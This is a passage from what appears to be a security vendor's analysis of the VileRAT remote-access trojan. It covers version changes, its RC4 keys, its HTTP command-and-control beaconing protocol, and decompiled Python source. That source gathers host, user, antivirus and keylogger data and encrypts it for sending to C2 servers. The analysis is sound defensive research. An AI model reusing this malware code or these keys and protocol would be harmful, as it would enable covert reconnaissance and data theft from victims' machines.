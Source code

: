 Between versions 2.4 and 2.7, VileRAT dropped the capability to use a remote SSH server as a C2 channel, as well as the screenshot implementation;
In version 3.0, the base64-encoded RC4 key which is used for various encryption routines changed from “Ixada4bxU3G0AgjcX+s0AYndBs4wiviTVIAwDiiEPPA=” to “XMpPrh70/0YsN3aPc4Q4VmopzKMGvhzlG4f6vk4LKkI=”, and an additional XOR pass (of Type B) was added in encoding schemes. The VileRAT remote update mechanism was refactored, and an additional command switch (called pmode) was added;
In version 3.7, specific Chrome version and Trezor wallet reconnaissance functions that we initially identified for version 2.4 were removed from the code, and VileRAT lost the ability to update from files provided on the filesystem where it was running;
In version 5.4, the way UUID-type identifiers were generated changed;
In version 6.5, an additional command switch (called jmode) was added;
In version 6.6, “-f” and “-t” command options were enabled by default.

VileRAT HTTP C2 protocol
VileRAT’s main C2 communication loop, as executed during Main C2 client mode (as described in VileRAT functionalities above), is quite straightforward and runs in a separate thread:

Every 2-5 minutes, VileRAT tries to send an HTTP POST request to each of the C2 servers that exist in its configuration, until one replies or until the list is exhausted. Environment data is embedded in a JSON dictionary, which is encrypted using RC4, encoded using the Type B XOR algorithm, base64-encoded and URL-encoded, then finally set as the HTTP request URL path (see Figure 14);
A C2 server may reply with an HTTP response, whose body can include an encoded and encrypted JSON array. If so, the JSON must contain at least a command to execute.






def get_request_data(req_type, xmode, pmode):
    data = {
        'type': 'svc', 
        'xmode': xmode, 
        'pmode': pmode, 
        'req_type': req_type, 
        'svc_ver': conf.VERSION, 
        'svc_name': conf.SVC_NAME, 
        'ext_uuid': get_ext_uuid(), 
        'svc_uuid': get_service_uuid(), 
        'old_svc_uuid': get_old_service_uuid(), 
        'host': get_hostname(), 
        'uname': get_username(), 
        'ia': win32.hap(), 
        'wv': win32.gwv(), 
        'dt': datetime.datetime.now().strftime('%Y-%m-%d %H-%M-%S'), 
        'xn': os.path.basename(sys.executable)
    }
    if req_type == REQ_GET_CMD:
        data['gc'] = global_conf
        data['klr'] = keylogger.kl_run
        data['cr'] = win32.is_process_exist(exe_name='chrome.exe')
        data['avs'] = get_av_list()
    elif req_type in [REQ_FIRST_RUN, REQ_INSTALL_DONE]:
        data['avs'] = get_av_list()
    enc_data = quote(b64encode(encrypt_xor(rc4_encrypt(json.dumps(data).encode('utf-8')))), safe="~()*!.'")
    return enc_data
